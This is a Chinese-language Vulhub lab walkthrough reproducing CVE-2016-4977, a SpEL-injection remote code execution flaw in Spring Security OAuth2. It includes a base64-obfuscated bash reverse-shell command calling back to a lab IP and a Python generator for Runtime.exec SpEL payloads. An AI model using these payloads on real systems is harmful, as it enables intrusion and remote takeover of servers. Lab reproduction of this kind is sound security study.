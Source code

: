 # Spring Security OAuth2 远程命令执行漏洞 CVE-2016-4977

## 漏洞描述

Spring Security OAuth 是为 Spring 框架提供安全认证支持的一个模块。在其使用 whitelabel views 来处理错误时，由于使用了Springs Expression Language (SpEL)，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。

参考链接：

- http://secalert.net/#CVE-2016-4977
- https://deadpool.sh/2017/RCE-Springs/
- http://blog.knownsec.com/2016/10/spring-security-oauth-rce/

## 环境搭建

Vulhub执行如下命令启动漏洞环境：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:8080/`即可看到web页面。

## 漏洞复现

访问`http://your-ip:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test`。首先需要填写用户名和密码，我们这里填入`admin:admin`即可。

可见，我们输入是SpEL表达式`${233*233}`已经成功执行并返回结果：

![image-20220301140432346](images/202203011404402.png)

java反弹shell的命令如下：

```
bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTc0LjEyOC85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```

然后，我们使用[poc.py](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2016-4977/poc.py)来生成反弹shell的POC：

```
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)
```

![image-20220301141331441](images/202203011413565.png)

如上图，生成了一大串SpEL语句。附带上这个SpEL语句发送请求：

![image-20220301141502582](images/202203011415696.png)

监听999端口，成功接收反弹shell（`/bin/bash`反弹成功，`bash`反弹失败）：

![image-20220301141258919](images/202203011412018.png)